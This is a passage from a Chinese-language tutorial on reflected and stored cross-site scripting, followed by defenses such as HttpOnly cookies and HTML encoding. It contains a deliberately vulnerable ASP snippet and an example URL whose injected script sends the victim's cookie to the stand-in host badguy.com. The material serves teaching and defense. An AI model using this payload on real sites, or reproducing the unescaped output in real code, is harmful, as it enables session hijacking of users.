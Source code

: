 	  <body>
	    　　　　Results for <%Reequest.QueryString("term")%> 　　　　... 　　
	  </body>
	</html>

Tom 先建立一个网站http://badguy.com, 用来接收“偷”来的信息。 然后 Tom 构造一个恶意的 url(如下), 通过某种方式(邮件，QQ)发给 Monica
	
	http://victim.com/search.asp?term=<script>window.open("http://badguy.com?cookie="+document.cookie)</script>

Monica 点击了这个 URL， 嵌入在 URL 中的恶意 Javascript 代码就会在 Monica 的浏览器中执行。 那么 Monica 在 victim.com 网站的 cookie, 就会被发送到 badguy 网站中。这样 Monica 在 victim.com 的信息就被 Tom 盗了。

### 持久型 XSS ###

又称存储型，该类型是应用广泛而且有可能影响大 Web 服务器自身安全的漏洞，攻击者将攻击脚本上传到 Web 服务器上，使得所有访问该页面的用户都面临信息泄露的可能。 攻击过程如下

Alex 发现了网站 A 上有一个 XSS 漏洞，该漏洞允许将攻击代码保存在数据库中，

Alex 发布了一篇文章，文章中嵌入了恶意 JavaScript 代码。

其他人如 Monica 访问这片文章的时候，嵌入在文章中的恶意 Javascript 代码就会在 Monica 的浏览器中执行，其会话 cookie 或者其他信息将被 Alex 盗走。

Dom-Based XSS 漏洞威胁用户个体，而存储式 XSS 漏洞所威胁的对象将是大量的用户。

### XSS 的防御 ###

**对输入进行过滤，对输出进行编码**

httpOnly：在 cookie 中设置 HttpOnly 属性后，js 脚本将无法读取到 cookie 信息（例如 document.cookie）。

对数据进行 Html Encode 处理，即转义 HTML，对 url 中的引号，尖括号，斜杠进行转义。例如：htmlspecialchars() 函数把一些预定义的字符转换为 HTML 实体。

HTML Encode：XSS 之所以会发生， 是因为用户输入的数据变成了代码。 所以我们需要对用户输入的数据进行 HTML Encode 处理。 将其中的"中括号"， “单引号”，“引号” 之类的特殊字符进行编码。

URL Encode：URL 编码是为了符合 url 的规范。因为在标准的 url 规范中中文和很多的字符是不允许出现在 url 中的。

黑名单

过滤 或移除特殊的 Html 标签， 例如:
